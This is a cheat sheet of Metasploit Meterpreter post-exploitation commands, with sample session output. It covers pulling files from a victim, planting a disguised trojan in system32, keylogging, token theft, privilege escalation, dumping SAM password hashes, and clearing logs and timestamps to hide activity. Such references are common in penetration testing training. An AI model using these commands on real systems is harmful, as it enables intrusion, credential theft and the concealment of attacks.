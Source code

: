 Metasploit meterpreter command cheat sheet

# Core Commands

- ? - help menu
- background - moves the current session to the background
- bgkill - kills a background meterpreter script
- bglist - provides a list of all running background scripts
- bgrun - runs a script as a background thread
- channel - displays active channels
- close - closes a channel
- exit - terminates a meterpreter session
- help - help menu
- interact - interacts with a channel
- irb - go into Ruby scripting mode
- migrate - moves the active process to a designated PID
- quit - terminates the meterpreter session
- read - reads the data from a channel
- run - executes the meterpreter script designated after it
- use - loads a meterpreter extension
- write - writes data to a channel  

# File Sytem Commands

- cat - read and output to stdout the contents of a file
- cd - change directory on the victim
- del - delete a file on the victim  
- download - download a file from the victim system to the attacker system  

When we need to retrieve a file from the target we use the download command, which tranfers the specified file into our local working directory. In this evetn that we need to recursively download an entire directory, we use the download -r command.

meterpreter > download c:\\boot.ini
[*] downloading: c:\boot.ini -> c:\boot.ini
[*] downloaded : c:\boot.ini -> c:\boot.ini/boot.ini

- edit - edit a file with vim  

To edit a file using our default text editor we use edit command. Behind the sences, Meterpreter will download a copy of file to a temp directory, then upload the new file when the edit is complete.

- getwd - print working directory
- lcd - change local directory
- lpwd - print local directory
- ls - list files in current directory
- mkdir - make a directory on the victim system
- pwd - print working directory
- rm - delete a file
- rmdir - remove directory on the victim system
- upload - upload a file from the attacker system to the victim  

To send a file to the target system we use the upload command, using the -r switch to recursively upload directories and their contents. In the following example we are uploading a falsely named Meterpreter payload.

meterpreter > upload evil_trojan.exe c:\\windows\\system32
[*] uploading  : evil_trojan.exe -> c:\windows\system32
[*] uploaded   : evil_trojan.exe -> c:\windows\system32\evil_trojan.exe
meterpreter >  

# Networking Commands

- ipconfig - displays network interfaces with key information including IP address, etc.
- portfwd - forwards a port on the victim system to a remote service
- route - view or modify the victim routing table  

# System Commands

- clearav - clears the event logs on the victim's computer
- drop_token - drops a stolen token
- execute - executes a command
- getpid - gets the current process ID (PID)
- getprivs - gets as many privileges as possible
- getuid - get the user that the server is running as
- kill - terminate the process designated by the PID
- ps - list running processes
- reboot - reboots the victim computer
- reg - interact with the victim's registry
- rev2self - calls RevertToSelf() on the victim machine
- shell - opens a command shell on the victim machine
- shutdown - shuts down the victim's computer
- steal_token - attempts to steal the token of a specified (PID) process
- sysinfo - gets the details about the victim computer such as OS and name  

# User Interface Commands

- enumdesktops - lists all accessible desktops
- getdesktop - get the current meterpreter desktop
- idletime - checks to see how long since the victim system has been idle
- keyscan_dump - dumps the contents of the software keylogger
- keyscan_start - starts the software keylogger when associated with a process such as Word or browser
- keyscan_stop - stops the software keylogger
- screenshot - grabs a screenshot of the meterpreter desktop
- set_desktop - changes the meterpreter desktop
- uictl - enables control of some of the user interface components  

# Privilege Escalation Commands

- load priv

- getsystem – uses 15 built-in methods to gain sysadmin privileges
Password Dump Commands

- hashdump – grabs the hashes in the password (SAM) file
Timestomp Commands

- timestomp – manipulates the modify, access, and create attributes of a file